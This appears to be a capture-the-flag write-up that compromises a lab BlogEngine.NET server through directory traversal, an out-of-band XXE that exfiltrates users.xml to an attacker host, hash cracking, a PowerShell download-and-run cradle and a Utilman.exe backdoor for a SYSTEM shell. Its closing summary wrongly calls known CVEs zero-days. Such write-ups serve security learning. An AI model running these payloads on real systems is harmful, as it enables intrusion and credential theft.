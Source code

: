 DETAILED DESCRIPTION OF EXECUTED STEPS:
1. Reconnaissance and Attack Surface Analysis Phase
bash
nmap -T4 -n -sC -sV -Pn -p- 10.201.52.221 -oN nmap_initial.txt
Discovered open ports:

80/tcp - Microsoft IIS httpd 10.0

3389/tcp - Microsoft Terminal Services

5985/tcp - Microsoft HTTPAPI httpd 2.0 (WinRM)

2. Web Content Discovery and Vulnerable Component Identification
Manual analysis of the web application structure:

bash
curl -s http://10.201.52.221/blog/ | head -n 10
Identified BlogEngine.NET version 3.3.7.0.

3. Directory Traversal Exploitation (CVE-2019-10717)
Exploiting the vulnerability in the filemanager API:

bash
curl -s "http://10.201.52.221/blog/api/filemanager?path=%2F..%2f..%2f"
Obtained detailed filesystem information, confirmed existence of a critical file:

json
{"Name":"users.xml","FullPath":"/../../App_Data/users.xml"}
4. OOB-XXE Attack Infrastructure Preparation
Creating exploits on the attacking machine:

bash
cat > exfil.dtd << 'EOF'
<!ENTITY % p1 SYSTEM "file:///C:/inetpub/wwwroot/blog/App_Data/users.xml">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://10.201.42.220:445/?exfil=%p1;'>">
%p2;
EOF

cat > oob.xml << 'EOF'
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://10.201.42.220:445/exfil.dtd">
<foo>&e1;</foo>
EOF
Launching HTTP server on port 445:

bash
sudo python3 -m http.server 445
5. XXE Attack Execution (CVE-2019-11392)
Triggering malicious XML processing:

bash
curl -v "http://10.201.52.221/blog/syndication.axd?apml=http://10.201.42.220:445/oob.xml"
Successful data exfiltration with URL-encoded users.xml content obtained.

6. Decoding and Analysis of Exfiltrated Data
Saving and transforming data:

bash
python3 -c "import urllib.parse, sys; print(urllib.parse.unquote(sys.stdin.read()))" < encoded_users.txt
Obtained user structure with Base64 password hashes.

7. Hash Conversion and Cracking
Base64 to HEX conversion:

bash
echo "wobS/AvKFPT5qP9FgQyh7C+kc+k+1rBzbOf7Oxfptw0=" | base64 -d | xxd -p -c 32
c286d2fc0bca14f4f9a8ff45810ca1ec2fa473e93ed6b0736ce7fb3b17e9b70d

echo "hJg8YPfarcHLhphiH4AsDZ+aPDwpXIEHSPsEgRXBhuw=" | base64 -d | xxd -p -c 32
84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec
Cracking with John the Ripper:

bash
john --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt hashes_john.txt
Successfully obtained password: guest for user guest.

8. Discovery of Additional Credentials
Authentication in the admin panel (/blog/admin/) and analysis of page drafts revealed critical information: password Excal1burP@ss1337 for user kingarthy.

9. RDP Access Establishment
Remote desktop session establishment:

bash
xfreerdp /v:10.201.52.221 /u:kingarthy /p:Excal1burP@ss1337 /size:1200x800 +clipboard /cert:ignore
10. Privilege Escalation via Access Rights Abuse
Privilege activation:

powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.201.42.220:8000/EnableAllTokenPrivs.ps1')
System file modification:

cmd
takeown /f C:\Windows\System32\Utilman.exe
icacls C:\Windows\System32\Utilman.exe /grant kingarthy:F
copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
11. SYSTEM Shell Acquisition
By triggering "Ease of Access" on the lock screen, a command interpreter with maximum privileges was obtained.

12. Final Flag Discovery
    
User flag
Root flag

CONCLUSIONS AND SUMMARY:
The project demonstrated the critical importance of:

Timely component updates - the outdated BlogEngine version contained multiple 0-day vulnerabilities

Network access segmentation - the open RDP port allowed the use of compromised credentials

Principle of least privilege - the user's SeTakeOwnershipPrivilege led to complete system compromise

The technical complexity involved combining four different vulnerabilities to achieve the final objective, representing a realistic modern cyber attack scenario. The project successfully highlighted attack chain construction techniques from initial reconnaissance to full system dominance.
